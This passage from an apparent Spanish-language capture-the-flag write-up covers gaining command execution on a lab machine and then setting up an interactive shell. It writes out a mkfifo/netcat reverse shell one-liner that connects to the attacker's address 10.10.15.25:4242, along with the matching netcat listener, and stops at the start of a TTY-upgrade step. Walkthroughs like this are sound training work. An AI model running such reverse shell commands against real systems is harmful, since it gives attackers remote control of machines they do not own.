 ```bash
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var 

```

![YEES!](assets/tenor.gif){:width="60px"} Obtenemos acceso al equipo!!

Ya que podemos ejecutar comandos desde la terminar, para que sea mas comodo a la hora de explorar los ficheros vamos a entablarnos una reverse shell y hacer un tratamiento de la <span style="color:red">tty</span> para obtener una terminal interactiva y poder utilizar los comados `ctrl + l` o `ctrl + c` y el autocompletado(<span style="color:red">!!</span>). 

#### [](#header-4)Reverse Shell

En la sesion que ganamos acceso a la maquina ejecutamos
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.25 4242 >/tmp/f
```

> Adecuamos el comando ingresando la direccion de nuestra maquina `10.10.15.25` y el puerto de escucha `4242`

En otra ventana en nuestra maquina de atacante vamos a ponernos en escucha en el puerto `4242`

```bash
nc -lvnp 4242
```

#### [](#header-4)Tratamiento de la tty

Una vez que tengamos la reverse shell procedemos a ejecutar
